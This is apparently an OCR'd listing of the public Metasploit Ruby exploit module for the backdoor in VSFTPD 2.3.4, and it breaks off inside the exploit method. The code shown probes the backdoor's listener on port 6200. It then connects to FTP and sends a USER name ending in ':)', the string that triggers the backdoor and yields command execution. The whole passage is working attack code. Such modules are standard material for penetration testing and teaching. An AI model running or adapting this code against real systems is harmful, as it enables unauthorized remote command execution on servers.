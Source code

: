 \begin{lstlisting}[language=ruby]
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'VSFTPD v2.3.4 Backdoor Command Execution',
      'Description'    => %q{
          This module exploits a malicious backdoor that was added to the	VSFTPD download
          archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
          June 30th 2011 and July 1st 2011 according to the most recent information
          available. This backdoor was removed on July 3rd 2011.
      },
      'Author'         => [ 'hdm', 'MC' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'OSVDB', '73573'],
          [ 'URL', 'http://pastebin.com/AetT9sS5'],
          [ 'URL', 'http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html' ],
        ],
      'Privileged'     => true,
      'Platform'       => [ 'unix' ],
      'Arch'           => ARCH_CMD,
      'Payload'        =>
        {
          'Space'    => 2000,
          'BadChars' => '',
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType'    => 'cmd_interact',
              'ConnectionType' => 'find'
            }
        },
      'Targets'        =>
        [
          [ 'Automatic', { } ],
        ],
      'DisclosureDate' => 'Jul 3 2011',
      'DefaultTarget' => 0))

    register_options([ Opt::RPORT(21) ], self.class)
  end

  def exploit

    nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
    if nsock
      print_status("The port used by the backdoor bind listener is already open")
      handle_backdoor(nsock)
      return
    end

    # Connect to the FTP service port first
    connect

    banner = sock.get_once(-1, 30).to_s
    print_status("Banner: #{banner.strip}")

    sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
    resp = sock.get_once(-1, 30).to_s
    print_status("USER: #{resp.strip}")


\end{lstlisting}
